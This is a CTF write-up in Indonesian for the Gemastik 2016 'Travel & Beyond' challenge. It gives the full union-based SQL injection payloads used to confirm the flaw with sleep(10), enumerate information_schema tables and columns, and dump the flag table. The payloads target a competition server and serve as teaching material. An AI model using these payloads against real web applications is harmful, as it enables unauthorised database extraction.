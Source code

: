 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : Travel & Beyond - 100"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
category: gemastik
tags: [gemastik,ctf]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Travel & Beyond](/images/travel-beyond.png)


### Solusi :

Sesuai clue pada soal kita harus mencari cara untuk melakukan database dump. percobaan pertama kita mencoba melakukan
*SQL Injection* pada search [https://target.netsec.gemastik.ui.ac.id/092c3b34fb7b7552859b236e97652c0e/travel-beyond/result.php?search=](https://target.netsec.gemastik.ui.ac.id/092c3b34fb7b7552859b236e97652c0e/travel-beyond/result.php?search=) , untuk memastikan SQL Injection kami menggunakan sleep(10) :

`x' union select sleep(10) from information_schema.tables where table_name like '%a#` < ERROR 


`x' union select sleep(10),1 from information_schema.tables where table_name like '%a#` < ERROR.

... SNIP ....

`x' union select sleep(10),1,1,1,1 from information_schema.tables where table_name like '%a#` < SLEEP TEREKSEKUSI ( NORMAL )

berarti pada table yang sebelum union di select memiliki 5 kolom. memuncul kan nama database dengan query :

`x' union select 1,database(),1,1,1 from information_schema.tables where table_name like '%a#` < travel

Mencari nama table : 

`x'  union select 1,table_name,1,1,1 from information_schema.tables where table_schema like '%travel#` < destination

Mencari table lain :

`x'  union select 1,table_name,1,1,1 from information_schema.tables where table_schema like 'travel' and table_name not like 'destination#` < flag

Mencari kolom flag :

`x' union select 1,column_name,1,1,1 from information_schema.columns where table_name like '%flag#` < flag

Dump Flag : 

`x'  union select 1,flag,1,1,1 from flag where flag like 'GEMASTIK#`

![Travel Beyond Flag](/images/travel-beyond-flag.png)
